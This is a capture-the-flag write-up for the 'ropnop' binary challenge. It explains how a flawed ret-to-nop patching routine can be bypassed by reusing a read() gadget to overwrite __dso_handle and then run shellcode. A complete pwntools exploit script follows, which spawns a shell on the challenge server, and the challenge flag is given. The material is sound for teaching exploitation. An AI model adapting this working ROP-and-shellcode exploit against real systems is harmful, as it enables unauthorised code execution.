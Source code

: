 # ropnop

For this challenge we are provided with an ELF binary `ropnop` and its source code `ropnop.c`. The binary is a PIE, but doesn't use stack canaries and has only partial RELRO. Analyzing the source code, it becomes clear that we are gifted the address of the binary and the ability to smash the stack and enter return oriented programming.

The binary tries to prevent us from building a useful ROP chain by overwriting all of its `0xc3` bytes (those are `ret` instructions) with `0x90` bytes (those are `nop` instructions). However, this procedure has a fatal flaw: eventually the code which performs the replacement will perform on itself, replacing the compare with `0xc3` with a compare with `0x90`. Afterwards, no more `ret`s will be overwritten; instead, `nop`s will be replaced with `nop`s.

Despite most ROP gadgets being overwritten by the above procedure, we can still escalate our ROP to code execution, using only one gadget: the call to `read()` in `main()`:

```asm
0x000012c3      488b45f0       mov rax, qword [rbp-0x10]
0x000012c7      4889c6         mov rsi, rax
0x000012ca      ba37130000     mov edx, 0x1337
0x000012cf      e86cfdffff     call sym.imp.read
0x000012d4      31c9           xor ecx, ecx
0x000012d6      488945e8       mov qword [rbp-0x18], rax
0x000012da      89c8           mov eax, ecx
0x000012dc      4883c420       add rsp, 0x20
0x000012e0      5d             pop rbp
0x000012e1      c3             ret
```

This gadget effectively calls `read(edi, *(rbp-0x10), 0x1337)`, followed by `add rsp, 0x20; pop rbp; ret`. Because `edi` is still `0` at this point, we read from standard input. When smashing the stack, we gain control of `rbp`, so we can `read()` to the target of any pointer with a known address.

The perfect target for this `read()` is the last entry of the global offset table, called `__dso_handle`, which always points to itself. Our ROP chain executes the `read` gadget twice, with `rbp-0x10` pointing to `__dso_handle` both times. That allows us to overwrite `__dso_handle` with the first read, and to write to an arbitrary address with the second read. We use this to write shellcode somewhere in the binary (it was remapped rwx by the patching routine), and then return to the shellcode.

Flag: `CSCG{s3lf_m0d1fy1ng_c0dez!}`

Exploit code:

```python
from pwn import *

# start or connect
if args.GDB:
    r = gdb.debug("./ropnop")
    p = pause
elif args.REMOTE:
    r = remote("hax1.allesctf.net", 9300)
    p = lambda: sleep(0.1)
else:
    r = process("./ropnop")
    p = lambda: sleep(0.1)
context.binary = "./ropnop"

# get addresses of binary
r.recvuntil("start:")
start = int(r.recvuntil("- end:", True), 0)
end = int(r.recvline().strip(), 0)
info("start: 0x%x, end: 0x%x", start, end)

# prepare shellcode
sc = asm(shellcraft.sh())
sc_addr = start

# return to read() in main()
main_read = start + 0x12C3
# 0x4040 points to itself (last got entry)
dso_handle = start + 0x4040

chain = flat(
    "A" * 0x10,
    # read(0, *dso_handle, 0x1337) with *dso_handle == dso_handle
    dso_handle + 0x10,
    main_read,
    "B" * 0x20,
    # read(0, *dso_handle, 0x1337) with *dso_handle == sc_addr
    dso_handle + 0x10,
    main_read,
    "C" * 0x28,
    # return to shellcode
    sc_addr,
)

r.send(chain)
p()
r.send(p64(sc_addr))
p()
r.send(sc)
p()
r.sendline('id;uname -a;pwd;ls -al / .;cat fl*')

r.interactive()
```
